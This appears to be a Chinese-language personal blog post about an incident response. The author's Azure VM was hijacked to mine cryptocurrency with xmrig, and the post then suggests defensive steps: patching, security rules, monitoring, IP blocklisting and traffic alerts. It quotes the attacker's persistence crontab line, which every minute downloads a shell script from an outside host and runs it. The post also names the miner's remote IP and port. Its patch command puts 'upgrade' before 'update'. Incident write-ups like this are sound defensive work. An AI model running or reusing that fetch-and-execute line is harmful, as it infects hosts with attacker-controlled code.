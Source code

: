 ```yaml
---
layout: post
author: liuning0820
tags: [cloud]
comments: true
---
```


# 云安全的重要性：记录一次云主机被挖矿攻防

最近发现我的一台Azure VM 超出150美元的月度限额导致VM 直接关机。

通过Azure Monitor 上 可以看出一段时间内CPU，Network Out Total 严重异常，出口流量暴增，CPU 近100%。

![]({{ site.url }}{{site.baseurl}}/images/2021-02-27-10-21-05.png)

重新开机并立即关闭80，443 端口，并限定了22 端口仅限本机访问， 然后SSH上去开始尝试寻找问题原因。

1. 首先通过 **htop** 检查导致高CPU的进程,发现名为**xmrig**的进程导致100%

2. 检查crontab 查看是否有自启动的job，果然发现有，杀掉进程后并删除crontab job。

```sh
*/1 * * * * cd /tmp/node-v10.15.3-linux-x64/bin;rm -rf cc.sh;
wget http://8306.org/cc.sh;chmod 777 cc.sh;bash cc.sh /dev/null 2>&1

```

## 如果从SRE角度去主动侦测

上述的步骤是事后诸葛亮， 是被动的应对，决定尝试一下主动侦测并提前响应，以免像我一样早上上面的损失。

- 升级系统补丁

可以选择定时任务去执行下面的命令也可以在配置云主机的时候设置自动升级补丁包

```sh
sudo apt upgrade && sudo apt update
```

- 设置安全组和Inbound/Outbound 规则

- 通过监控工具主动发现异常

![]({{ site.url }}{{site.baseurl}}/images/2021-02-27-10-42-45.png)

从这里可以看到这个**xmrig**的进程通过13333这个端口从我的 Azure VM 跟目标机器 101.32.200.219 这台机器进行通信。

通过IP 我们可以定位出目标IP 对应的ISP 是腾讯云上的一台云主机。

![]({{ site.url }}{{site.baseurl}}/images/2021-02-27-10-46-59.png)

到这一步，我在想，是不是我们遇到重大损失的时候就可以报案并联系IPS运营商去协助从源头上解决问题。

当然，对于小损失，像我这样的，我们可以吃一堑长一智，至少可以把对方的IP 加到inbound/outbound blocklist里。

![]({{ site.url }}{{site.baseurl}}/images/2021-02-27-10-52-22.png)

- 设置Alert 主动通知和干预

因为此次攻击主要是利用云主机资源用来挖矿，对我的账单影响比较大的地方是出口流量费用。为了避免损失，我结合Azure 的Metrics 设置了
Alert。

![]({{ site.url }}{{site.baseurl}}/images/2021-02-27-10-55-41.png)

一旦发现一段时间内的流量异常，就通过邮件发送通知，并自动执行任务暂时关闭主机，阻止近一步的损失。

## 还有什么可以做的？

欢迎大家留言，提出保障云主机安全的见解和建议。
